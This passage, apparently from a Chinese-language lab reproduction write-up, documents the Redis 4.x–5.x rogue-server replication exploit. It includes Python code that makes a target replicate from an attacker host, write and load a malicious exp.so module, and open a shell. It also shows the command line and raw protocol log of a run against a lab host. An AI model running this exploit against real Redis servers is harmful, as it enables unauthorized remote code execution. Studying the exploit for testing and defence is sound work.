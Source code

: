 ```
            dout(cli, resp)
            if phase == 3:
                break

    def runserver(rhost, rport, lhost, lport):
        # expolit
        remote = Remote(rhost, rport)
        remote.do(f"SLAVEOF `{`lhost`}` `{`lport`}`")
        remote.do("CONFIG SET dbfilename exp.so")
        sleep(2)
        rogue = RogueServer(lhost, lport)
        rogue.exp()
        sleep(2)
        remote.do("MODULE LOAD ./exp.so")
        remote.do("SLAVEOF NO ONE")

        # Operations here
        interact(remote)

        # clean up
        remote.do("CONFIG SET dbfilename dump.rdb")
        remote.shell_cmd("rm ./exp.so")
        remote.do("MODULE UNLOAD system")
```
- 漏洞复现
漏洞影响版本

```
4.x-5.x
```

目标主机信息

```
Version：4.0.9
IP：192.33.6.129
Port：6379
OS：Ubuntu18.6
```

注入恶意SO文件：[@n0b0dyCN](https://github.com/n0b0dyCN)师傅已编译好的so文件

```
λ  Qftm &gt;&gt;&gt;: python3 redis-rogue-server.py --rhost 192.33.6.129 --rport 6379 --lhost 192.168.8.185 --lport 8888
TARGET 192.33.6.129:6379
SERVER 192.168.8.185:8888
[&lt;-] b'*3\r\n$7\r\nSLAVEOF\r\n$13\r\n192.168.8.185\r\n$4\r\n8888\r\n'
[-&gt;] b'+OK\r\n'
[&lt;-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
[-&gt;] b'+OK\r\n'
[-&gt;] b'PING\r\n'
[&lt;-] b'+PONG\r\n'
[-&gt;] b'REPLCONF listening-port 6379\r\n'
[&lt;-] b'+OK\r\n'
[-&gt;] b'REPLCONF capa eof capa psync2\r\n'
[&lt;-] b'+OK\r\n'
[-&gt;] b'PSYNC 00f576097336784081eea872806f343b9852dbd8 1\r\n'
[&lt;-] b'+FULLRESYNC ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ 1\r\n$44320\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00'......b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00J\xa6\x00\x00\x00\x00\x00\x00\xd3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\n'
[&lt;-] b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
[-&gt;] b'+OK\r\n'
[&lt;-] b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
```